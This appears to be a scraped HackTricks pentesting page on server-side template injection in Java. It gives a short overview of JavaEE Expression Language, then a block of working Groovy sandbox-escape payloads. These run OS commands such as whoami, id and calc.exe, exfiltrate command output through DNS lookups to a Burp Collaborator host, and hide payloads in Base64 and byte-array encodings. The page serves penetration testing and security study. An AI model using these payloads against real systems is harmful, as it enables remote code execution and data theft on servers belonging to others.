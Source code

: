 
Expression Language (EL) is a fundamental feature that facilitates interaction between the presentation layer (like web pages) and the application logic (like managed beans) in JavaEE. It's used extensively across multiple JavaEE technologies to streamline this communication. The key JavaEE technologies utilizing EL include:

- **JavaServer Faces (JSF)**: Employs EL to bind components in JSF pages to the corresponding backend data and actions.
 
- **JavaServer Pages (JSP)**: EL is used in JSP for accessing and manipulating data within JSP pages, making it easier to connect page elements to the application data.
 
- **Contexts and Dependency Injection for Java EE (CDI)**: EL integrates with CDI to allow seamless interaction between the web layer and managed beans, ensuring a more coherent application structure.
 

Check the following page to learn more about the **exploitation of EL interpreters**:

[EL - Expression Language](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#groovy-java)

Groovy (Java)

The following Security Manager bypasses were taken from this [**writeup**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/).



```
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
 cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
 assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
 cmd = "whoami";
 out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
 cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
 java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```
